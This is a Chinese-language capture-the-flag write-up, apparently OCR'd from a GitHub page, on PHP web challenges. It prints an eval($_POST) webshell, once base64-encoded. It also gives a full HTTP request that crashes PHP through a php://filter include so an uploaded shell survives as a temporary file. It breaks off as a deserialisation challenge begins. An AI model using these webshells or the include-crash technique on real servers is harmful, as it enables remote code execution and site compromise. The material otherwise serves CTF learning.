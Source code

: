 然后msg[]=123PD9waHAgZWNobyBtZDUoMSk7QGV2YWwoJF9QT1NUWzFdKTs/Pi8v1

include即可，找根目录下的flag。


## ezinclude
考点：

1. hash长度攻击（雾）
2. php7 程序崩溃后包含临时文件

其实第一步，直接随便输入一个用户名然后把更新的cookie作为密码就可以过了。

第二步，这里有个404跳转，抓个包或者禁用js就好了（flflflflag.php），然后用dirsearch扫一下，发现了个dir.php，是枚举tmp目录下的文件的，猜测和这点有关。

参考这篇文章 https://www.anquanke.com/post/id/183046

发现php://filter/string.strip_tags/resource在文件包含处使用会导致php崩溃，从而留下临时文件，如果我们能同时上传一个webshell句解决问题了。

```
GET /flflflflag.php?file=php://filter/string.strip_tags/resource=index.php HTTP/1.1
Host: your host
Content-Length: 218
Cache-Control: max-age=0
Origin: null
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryg0YFRf1GjnhWWlch
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.163 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,ja;q=0.7
Connection: close

------WebKitFormBoundaryg0YFRf1GjnhWWlch
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: text/php

<?php echo md5(1);@eval($_POST[1]);?>
------WebKitFormBoundaryg0YFRf1GjnhWWlch--
```

之后就是常规的操作拿shell了，phpinfo和根目录下都看下就好了。



## ReadlezPHP
考点：

1. php反序列化
2. php7代码执行

首先直接看源码
```html
<a href="./time.php?source"></a>
```
